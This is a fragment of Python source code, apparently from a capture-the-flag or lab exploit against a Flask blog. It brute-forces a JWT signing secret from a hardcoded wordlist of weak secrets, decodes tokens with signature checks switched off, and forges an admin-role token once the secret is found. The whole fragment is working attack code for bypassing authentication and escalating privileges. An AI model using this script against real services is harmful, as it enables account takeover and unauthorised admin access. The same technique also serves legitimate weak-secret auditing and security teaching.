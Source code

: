 ```python
        self.secret = None
        
        # Extended wordlist for common secrets
        self.wordlist = [
            '', 'secret', 'password', 'admin', 'key', 'jwt', 'flask',
            'dev', 'development', 'test', 'exploit3rs', '123456',
            'qwerty', 'abc123', 'letmein', 'token', 'jwtkey',
            'secret_key', 'supersecret', 'flask_secret', 'dev_secret',
            'jwt_secret', 'secretkey', 'mykey', 'private', 'blog'
        ]
    
    def decode_token(self, verify: bool = False) -> dict:
        """Decode JWT token without verification"""
        try:
            return jwt.decode(
                self.original_token, 
                options={"verify_signature": verify}
            )
        except Exception as e:
            print(f"❌ Error decoding token: {e}")
            return None
    
    def crack_secret(self) -> Optional[str]:
        """Attempt to crack the JWT secret"""
        print("🔍 Attempting to crack JWT secret...\n")
        
        for secret in self.wordlist:
            try:
                jwt.decode(self.original_token, secret, algorithms=["HS256"])
                print(f"✅ SECRET FOUND: '{secret}'")
                self.secret = secret
                return secret
            except jwt.InvalidSignatureError:
                continue
            except Exception:
                continue
        
        print("❌ Secret not found in wordlist")
        return None
    
    def forge_admin_token(self) -> Optional[str]:
        """Forge an admin JWT token"""
        if not self.secret:
            print("❌ No secret available. Run crack_secret() first.")
            return None
        
        # Get original payload structure
        original_payload = self.decode_token()
        
        # Modify to admin
        admin_payload = {
            "user": original_payload.get("user", "admin"),
            "role": "admin"
        }
        
        # Forge token
        forged_token = jwt.encode(admin_payload, self.secret, algorithm="HS256")
        
        print(f"\n🎯 FORGED ADMIN TOKEN:")
        print(f"{forged_token}\n")
        
        return forged_token
    
```